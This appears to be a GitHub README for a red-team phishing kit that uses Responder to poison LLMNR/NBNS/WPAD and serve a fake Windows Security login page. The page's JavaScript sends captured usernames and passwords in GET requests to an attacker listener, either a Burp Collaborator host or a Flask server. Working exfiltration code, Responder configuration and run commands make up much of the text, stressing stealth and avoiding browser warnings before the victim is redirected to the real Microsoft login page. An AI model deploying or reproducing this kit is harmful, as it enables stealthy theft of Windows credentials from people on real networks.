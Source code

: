# 🛠️ Cleartext Windows Credential Phishing + Exfiltration Using Responder (HTTP+HTTPS)

## 🌟 Objective

Create a phishing environment that exfiltrates credentials **stealthily via GET requests** over both HTTP and HTTPS, without triggering browser warnings.

---

## 📩 Components

- **Responder**
  - Poisons LLMNR/NBNS/WPAD to hijack internal hostname lookups
  - Serves the fake login page over HTTP (`port 80`)
- **Fake login page**
  - A crafted HTML page used to mimick a Windows Security Prompt
  - Uses JS to decide whether to exfil over HTTP (`GET`) or HTTPS (`POST`) to ensure mixed content is not loaded and minimise friction in the form of browser warnings/errors
- **HTTP(S) listener**
  - An attacker-controlled listener will wait for incoming exfiltration requests
  - This server ideally has a valid HTTPS certificate to minimise warnings
  - Burp collaborator is recommended
  - In the event it is blocked by the client network, something like FakeWindowsAuthListener.py can be used, this spawns
    - HTTP listener on port `9998`
    - HTTPS listener on port `9999`

❗❗❗ NOTE ❗❗❗
- It is **strongly recommended** to:
  - Use a **valid HTTPS certificate**, e.g.:
    - [Let's Encrypt](https://letsencrypt.org/)
    - [mkcert](https://github.com/FiloSottile/mkcert)
    - Internal trusted CA
  - Or better yet, use a service like **Burp Collaborator** to receive credential beacons
- Flask listener approach is a fallback. Use it **only if** you can not use Burp

---

## 🔧 Setup Instructions

> If using Burp Collaborator or similar, go straight to #3

### 1. Create the Flask Listener

Save as `listener.py`:

- Runs HTTP server on port 9998
- Runs HTTPS server on port 9999
- Logs credentials to `/tmp/responder_creds.txt`

### 2. Generate a Self-Signed SSL Certificate

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
```

- Use your server’s IP or domain as the **Common Name (CN)**
- Store both `cert.pem` and `key.pem` in the same folder as `listener.py`

> ⚠️ If using this in a real engagement, replace with a **valid certificate** or consider using **Burp Collaborator** to exfil the beacon.

### 3. Update Fake Login Page

Update the JavaScript `exfil()` function code according to the method you are using to capture credentials.

The JavaScript captures credentials and sends via `GET`. This avoids the need for a form `POST`, preventing any warning prompts.

Example: Burp Collaborator
```js
  <script>
    function exfil() {
      const u = encodeURIComponent(document.getElementById("UserNameText").value);
      const p = encodeURIComponent(document.getElementById("PasswordText").value);
      const protocol = window.location.protocol;
      const host = '10zd6vqmp4s3uoveqramsqf01r7ivajz.oastify.com';
      const i = new Image();
      i.src = `${protocol}//${host}/log?u=${u}&p=${p}`;
    
      // Optionally hold the image in DOM - Potential for DNS exfil here
      document.body.appendChild(i);
    
      // Redirect
      setTimeout(() => {
        window.location.href = "https://login.microsoftonline.com";
      }, 1000);
    }
  </script>
```

Example: Flask
```js
  <script>
    function exfil() {
      const u = encodeURIComponent(document.getElementById("UserNameText").value);
      const p = encodeURIComponent(document.getElementById("PasswordText").value);
      const protocol = window.location.protocol;
      const host = window.location.hostname;
      const port = protocol === "https:" ? "9999" : "9998";
      const i = new Image();
      i.src = `${protocol}//${host}:${port}/log?u=${u}&p=${p}`;
    
      // Optionally hold the image in DOM - Potential for DNS exfil here
      document.body.appendChild(i);
    
      // Redirect
      setTimeout(() => {
        window.location.href = "https://login.microsoftonline.com";
      }, 1000);
    }
  </script>
```

### 4. Configure Responder

Edit `Responder.conf`:

```ini
[HTTP]
Serve_Html = On
Html_Filename = /files/FakeWindowsAuth.html
```

Run Responder:

`sudo responder -I <interface> -wdDv`

Responder will:
- Poison hostname lookups (e.g., `intranet`, `portal`)
- Serve the phishing login page

### 5. Run the Flask Listener (If not using Burp Collaborator)

`sudo python3 FakeWindowsAuthListener.py`

---

## 🧐 Attack Flow

| Component        | Role                                                  |
|------------------|-------------------------------------------------------|
| **Responder**    | Hijacks name resolution and serves phishing HTML      |
| **Login Page**   | Uses JS to exfil creds via `GET` based on protocol    |
| **Flask Server** | Logs GET requests from port 9998 (HTTP) and 9999 (HTTPS) |
| **Redirect**     | Sends victim to a real login page after exfiltration  |
